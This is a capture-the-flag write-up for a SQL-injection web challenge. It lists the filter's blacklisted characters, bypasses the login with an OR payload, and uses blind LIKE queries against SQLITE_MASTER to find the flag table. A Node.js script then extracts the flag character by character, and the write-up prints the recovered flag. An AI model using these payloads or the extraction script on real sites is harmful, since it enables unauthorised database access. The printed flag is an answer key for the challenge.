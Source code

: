 **Name**: Blacklist Reloaded  
**Instructions**: Maybe I'm foolish, maybe I'm blind, thinking I can see through this and see what's behind! Can you get the flag from http://challenges.runesec.com:15123 ?  
**Hint**: Can you leak out any information? You might like it :)  
**Flag Format**: flag{md5-hash}  
**Tags**: web, sqli

### Exploration
We know this is another challenge of SQL injection with a blacklist.
We are given a login interface with Username and Password fields. We assume the following query is invoked on the login server:  
`SELECT * FROM ??? WHERE username="{sqli input}" AND password="{sqli input}"`  

We can start by finding what's in the blacklist and what we can actually use.  
*(If a blacklisted term is found in the input, a special page is returned saying that a blacklisted term was used)*  
Some of the blacklisted semantics: `', ;, =, UNION`  
Some of the semantics we can use: `", OR, AND, EXISTS, SELECT, WHERE, LIKE, %, /*, --`

### Exploitation
We start pretty simple:  
`" OR 1 /*`
- `"` to validly close the opened quotes that expect to contain the username.
- `OR 1` because ORing something TRUE, makes the whole expression to evaluate as TRUE.
- `/*` is a multi-line comment to escape anything that comes after our crafted query and avoid errors.  

This works, kinda. We go through the login wall successfully, but the page we land reads:  
`Well done, but the flag is not here`

This will prove helpful. We know whatever statement we put after `OR`, will be true only if we land on this page, otherwise we'll get to a page that reads `Login failed`.

##### Finding table names:
From https://www.sqlite.org/faq.html:
```
Every SQLite database has an SQLITE_MASTER table that defines the schema for the database.  
The SQLITE_MASTER table looks like this:

CREATE TABLE sqlite_master (
  type TEXT,
  name TEXT,
  tbl_name TEXT,
  rootpage INTEGER,
  sql TEXT
);
For tables, the type field will always be 'table' and the name field will be the name of the table.
```
We can start discovering table names as follows:  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "a%") /*` FAIL  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "b%") /*` FAIL  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "c%") /*` FAIL  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "d%") /*` FAIL  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "e%") /*` FAIL  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "f%") /*` SUCCESS  
Great! We now know there's a table that starts with the letter `f`.  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "fa%") /*` FAIL  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "fb%") /*` FAIL  
...  
`" OR EXISTS(SELECT * FROM SQLITE_MASTER WHERE type LIKE "table" AND name LIKE "fl%") /*` SUCCESS   
Great! We now know there's a table that starts with `fl`.  

Repeating the process, for the rest of the table name we discover a table named `flagHERE`.  
*(We can figure out when we've discovered the full table name when we exhaust all the possible characters to be appended to the current discovered name, but they all fail)*

We guess there's a column named `flag` in table `flagHERE` and we can use the same methodology as above to discover the flag, one character at a time.

### Solution 
```
var axios = require('axios');

var URL         = 'http://challenges.runesec.com:15123/login.php';
var LEN_FLAG    = 32 + 4 + 2;
var SUCCESS_MSG = 'Well done, but the flag is not here'

var d = ('0123456789abcdef' + 'lg{}').split('');

var step = function(i, c, flag) {
    if (i >= LEN_FLAG) return;
    if (c >= d.length) return;
    var fflag = flag + d[c];
    var query = '" OR EXISTS(SELECT flag FROM flagHERE WHERE flag LIKE "' + fflag + '%") /*';
    axios.post(URL, 'username=' + query, { headers: {'Content-Type': 'application/x-www-form-urlencoded' }})
    .then(function(res) {
      var success = res.data.indexOf(SUCCESS_MSG) !== -1;
      if (success) {
        console.log(fflag);
        step(i + 1, 0, fflag);
      } else {
        step(i, c + 1, flag);
      }
    });
}
step(0, 0, '');

f
fl
fla
flag
flag{
flag{c
flag{c6
flag{c6a
flag{c6a7
flag{c6a7e
flag{c6a7ee
flag{c6a7eee
flag{c6a7eee6
flag{c6a7eee68
flag{c6a7eee68d
flag{c6a7eee68d1
flag{c6a7eee68d18
flag{c6a7eee68d185
flag{c6a7eee68d1851
flag{c6a7eee68d18518
flag{c6a7eee68d185186
flag{c6a7eee68d1851866
flag{c6a7eee68d18518663
flag{c6a7eee68d18518663b
flag{c6a7eee68d18518663b7
flag{c6a7eee68d18518663b76
flag{c6a7eee68d18518663b76d
flag{c6a7eee68d18518663b76da
flag{c6a7eee68d18518663b76dab
flag{c6a7eee68d18518663b76dab1
flag{c6a7eee68d18518663b76dab17
flag{c6a7eee68d18518663b76dab17f
flag{c6a7eee68d18518663b76dab17f9
flag{c6a7eee68d18518663b76dab17f99
flag{c6a7eee68d18518663b76dab17f990
flag{c6a7eee68d18518663b76dab17f990a
flag{c6a7eee68d18518663b76dab17f990a5
flag{c6a7eee68d18518663b76dab17f990a5}
```